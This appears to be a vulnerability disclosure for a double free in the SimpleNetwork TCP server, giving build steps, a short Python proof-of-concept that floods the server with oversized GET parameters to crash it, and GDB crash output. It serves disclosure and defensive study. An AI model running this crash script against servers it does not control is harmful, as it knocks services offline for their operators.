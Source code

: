 # Overview

SimpleNetwork TCP Server commit 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496 was discovered to contain a double free vulnerability which is exploited via crafted TCP packets. Triggering the double free will allow client to crash any SimpleNetwork TCP server remotely. In other situations, double free vulnerabilities can cause undefined behavior and potentially code execution in the right circumstances.

# Reproduction

To ensure you have the standard build tools required to compile the library, install the following packages (ost systems this will already be installed):

``
sudo apt-get install build-essential git
``

The vulnerability can be reproduced by sending consecutive requrests to the server containing a large buffer of characters in an HTTP GET query parameter.  First, compile the 'libSimpleNetwork' library and example server provided in the source code:

```
git clone https://github.com/kashimAstro/SimpleNetwork.git
cd SimpleNetwork
git checkout 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496
cd src
make
cd ../example-server
make
```

### Start the example-server:

```
./server 80 1
```

### Save the following python3 proof of concept script to a file (modify the url as needed):
```
import requests

buf = payload="A"*10000
payload = {'timestamp': buf}

for i in range(50):
    try:
        r = requests.get('http://localhost/', params=payload)
        
    except:
        print("Retrying...")
    

print("Complete...")
```

### Execute the python3 script:

```
python3 poc.py
```

### Crash verification:
If successful, the server will crash and you will see the following output from the application:
```
segmentation fault  ./server 80 1
```

### GDB backtrace:
```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
 RAX  0x21
 RBX  0x7fffec000e60 ◂— '2023-1-31 11:50:57\r\n'
 RCX  0x0
 RDX  0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RDI  0x55555556e3d0 (TCPServer::newsockfd) —▸ 0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RSI  0xffffffffffffffff
 R8   0x0
 R9   0x640
 R10  0xa3d70a3d70a3d70b
 R11  0x293
 R12  0x14
 R13  0x0
 R14  0x7ffff7a1dc90 —▸ 0x7ffff7a1dcb0 —▸ 0x7ffff7a1dcf0 —▸ 0x7ffff7a1dd30 —▸ 0x7fffe8001bf0 ◂— ...
 R15  0x7ffff621c000 ◂— 0x0
 RBP  0x7ffff6a1bc30 —▸ 0x7ffff6a1bed0 ◂— 0x0
 RSP  0x7ffff6a1bc00 ◂— 0x14
 RIP  0x55555555909e ◂— mov    eax, dword ptr [rax]
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x55555555909e    mov    eax, dword ptr [rax]
   0x5555555590a0    mov    ecx, 0
   0x5555555590a5    mov    rdx, r12
   0x5555555590a8    mov    rsi, rbx
   0x5555555590ab    mov    edi, eax
   0x5555555590ad    call   send@plt                <send@plt>
 
   0x5555555590b2    nop    
   0x5555555590b3    add    rsp, 0x20
   0x5555555590b7    pop    rbx
   0x5555555590b8    pop    r12
   0x5555555590ba    pop    rbp

```


# References

* https://owasp.org/www-community/vulnerabilities/Doubly_freeing_memory
* https://cwe.mitre.org/data/definitions/415.html
* https://github.com/kashimAstro/SimpleNetwork/issues/22
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36234
